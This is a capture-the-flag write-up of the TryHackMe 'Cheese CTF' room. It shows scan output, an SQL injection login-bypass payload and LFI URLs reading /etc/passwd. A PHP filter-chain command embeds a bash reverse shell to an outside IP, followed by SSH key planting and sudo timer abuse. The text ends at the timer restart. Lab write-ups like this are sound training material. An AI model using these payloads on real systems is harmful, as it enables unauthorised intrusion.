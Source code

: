 ```yaml
---
title: 'TryHackMe: Cheese CTF'
author: 1of0
date: 2024-12-19 12:00:00 +0300
categories: [TryHackMe]
tags: [web, rustscan, portspoofing, feroxbuster, sqli, sqlmap, LFI, RCE, ssh, service, timer, suid, sudo, sysmemstl, grep, openssl, unshadow]
published: true
render_with_liquid: true
img_path: /assets/Cheese-CTF
image:
  path: /assets/TryHackMe/Cheese-CTF/room_image.webp
---
```


In the Cheese CTF, we bypassed the login page using an `SQL injection` and discovered an endpoint `vulnerable to LFI`. By `chaining PHP filters`, we turned the LFI into `RCE` and gained an initial foothold on the system. After that, we exploited a `writable authorized_keys file` to pivot to another user. As this new user, we fixed a `syntax error in a timer` and used `sudo privileges` to start it, which allowed us to create a `SUID binary`. Finally, by exploiting this binary, we `escalated privileges to root`.
## Initial Enumeration
# Enumeration

### NMAP

```Bash
 nmap -p- -sS -vv -T4 10.10.78.32
all port open
```

### gobuster

😡 nothing found 

```Bash
 gobuster dir -u http://10.10.78.32/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.78.32/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.78.32/images/]
/server-status        (Status: 403) [Size: 276]

```

### dirsearch

```Bash
└─$ dirsearch -u http://10.10.78.32/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /home/kali/Documents/tryhackme/reports/http_10.10.78.32/__24-12-29_07-01-43.txt

Target: http://10.10.78.32/

[07:01:43] Starting: 
[07:01:50] 403 -  276B  - /.ht_wsr.txt
[07:01:50] 403 -  276B  - /.htaccess.save
[07:01:50] 403 -  276B  - /.htaccess.sample
[07:01:50] 403 -  276B  - /.html
[07:01:50] 403 -  276B  - /.htaccess_extra
[07:01:50] 403 -  276B  - /.htaccess_orig
[07:01:50] 403 -  276B  - /.htm
[07:01:50] 403 -  276B  - /.htaccessOLD
[07:01:50] 403 -  276B  - /.htaccess_sc
[07:01:50] 403 -  276B  - /.htaccessOLD2
[07:01:50] 403 -  276B  - /.htaccessBAK
[07:01:50] 403 -  276B  - /.htaccess.bak1
[07:01:50] 403 -  276B  - /.htaccess.orig
[07:01:50] 403 -  276B  - /.htpasswd_test
[07:01:50] 403 -  276B  - /.htpasswds
[07:01:50] 403 -  276B  - /.httr-oauth
[07:01:53] 403 -  276B  - /.php
[07:02:33] 200 -  484B  - /images/
[07:02:33] 301 -  311B  - /images  ->  http://10.10.78.32/images/
[07:02:39] 200 -  370B  - /login.php
[07:02:46] 200 -  254B  - /orders.html
[07:02:57] 403 -  276B  - /server-status/
[07:02:57] 403 -  276B  - /server-status
[07:03:11] 200 -  254B  - /users.html

Task Completed

```

### Web

we found email `[info@thecheeseshop.com](mailto:info@thecheeseshop.com)` in home page 

### SQLMAP

we used sqlmap to check for injection and auth bypass and it worked with the payload 

```Bash
' OR 'x'='x'#;
```

We received a new directory

```Bash
 “http://10.10.78.32/secret-script.php?file=supersecretadminpanel.html”
```

in /**secret-script.php?file=supersecretadminpanel.html** we have new directory called **/massages.html**

```Bash
                                                                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/tryhackme/cheese.thm]
└─$ sqlmap -r req.txt -p username --dbs 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:30:44 /2024-12-29/

[07:30:44] [INFO] parsing HTTP request from 'req.txt'
[07:30:44] [INFO] testing connection to the target URL
[07:30:45] [INFO] checking if the target is protected by some kind of WAF/IPS
[07:30:45] [INFO] testing if the target URL content is stable
[07:30:45] [INFO] target URL content is stable
[07:30:45] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[07:30:45] [INFO] testing for SQL injection on POST parameter 'username'
[07:30:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[07:30:46] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[07:30:46] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[07:30:46] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[07:30:47] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[07:30:47] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[07:30:48] [INFO] testing 'Generic inline queries'
[07:30:48] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[07:30:48] [WARNING] time-based comparison requires larger statistical model, please wait. (done)                                                                                                                
[07:30:48] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[07:30:49] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[07:30:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[07:31:00] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[07:31:31] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[07:31:31] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
got a 302 redirect to 'http://10.10.78.32/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] n
[07:31:54] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[07:33:04] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[07:33:04] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[07:33:07] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[07:33:07] [INFO] checking if the injection point on POST parameter 'username' is a false positive
[07:33:12] [WARNING] false positive or unexploitable injection point detected
[07:33:12] [WARNING] POST parameter 'username' does not seem to be injectable

```

### LFI found

```Bash
http://10.10.78.32/secret-script.php?file=php://filter/resource=supersecretmessageforadmin
http://10.10.78.32/secret-script.php?file=php://filter/resource=../../../../../../etc/passwd
```

We downloaded  php_filter_chain_generator.py and chained the following to get a reverse shell

```Bash
python php_filter_chain_generator.py --chain "<?php system('bash -c \"bash -i >& /dev/tcp/10.21.67.52/5000 0>&1\"'); ?>"
```

we downloaded [linpeas.sh](http://linpeas.sh) 

```bash
Vulnerable to CVE-2021-3560
You have write privileges over /etc/systemd/system/exploit.timer
/etc/systemd/system/exploit.timer
/home/comte/.ssh/authorized_keys
```

we cand write to auth keys of comte user. 

added my public key and ssh normally. 

```bash
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer

```

we updated the timer 

```bash
comte@cheesectf:/etc/systemd/system$ cat exploit.timer 
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=1

[Install]
WantedBy=timers.target

```

then we restart 

```bash
 sudo  /bin/systemctl restart exploit.timer
```
